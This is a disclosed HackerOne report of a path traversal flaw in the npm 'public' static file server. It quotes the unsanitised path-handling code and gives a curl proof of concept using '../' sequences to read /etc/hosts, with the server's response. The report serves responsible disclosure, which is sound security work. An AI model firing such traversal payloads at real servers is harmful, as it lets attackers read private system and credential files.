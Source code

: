 # [public] Path Traversal allows to read content of arbitrary files

## Report Details
- **Report ID**: 312918
- **URL**: https://hackerone.com/reports/312918
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-06T16:12:58.503Z
- **Disclosed**: 2018-02-17T17:44:13.493Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal in public module.
It allows to read content of arbitrary files on the remote server.

## Module

**public**

Run static file hosting server with specified public dir & port. Support a "direcotry index" like Apache httpd.

https://www.npmjs.com/package/public

version: 0.1.2

Stats
3 downloads in the last day
30 downloads in the last week
384 downloads in the last month

~4600 estimated downloads per year


## Description

Lack of file path sanitization causes that any file on the server might be read by malicious user.

Vulnerability exists, because path is used without any check against Path Traversal attacks:

```javascript
// node_modules/public/bin/public, line 73:
    var pathname = url.parse(req.url).pathname;
    var filePath = path.join(dir, pathname); // Real file path
    var base = filePath.replace(dir, ''); // Base path for browser link
    var abs = path.resolve(filePath); 
    console.log(new Date().toString(), abs);
    fs.readFile(filePath, function(err, data) {
      if (err) {
        (...)
      }
      res.writeHead(200, { 'Content-Type': mime.lookup(filePath) });
      res.end(data);
```
As you can notice, ```filePath``` is used directly, as read from url.

## Steps To Reproduce:


- install ```public```:

```
$ npm install public
```

- run ```public``` in direcotry of your choice:

```
me:~/playground/hackerone/Node$ ./node_modules/public/bin/public ./ 8080
Public.js server running with "/home/rafal.janicki/playground/hackerone/Node" on port 8080
```

- execute following ```curl``` command (adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../etc/hosts
```

- see result:

```
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../etc/hosts HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< last-modified: Tue, 23 Jan 2018 14:51:52 GMT
< content-length: 188
< content-type: application/octet-stream
< Date: Tue, 06 Feb 2018 15:40:51 GMT
< Connection: keep-alive
< 
127.0.0.1	localhost
127.0.1.1	LT0081U2

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
* Connection #0 to host 127.0.0.1 left intact
```

## Supporting Material/References:


- Ubuntu 16.04 LTS
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.4 LTS
- npm version: 5.6.0
- curl 7.47.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows to read content of arbitrary files from the server where module is run.

## Attachments
No attachments
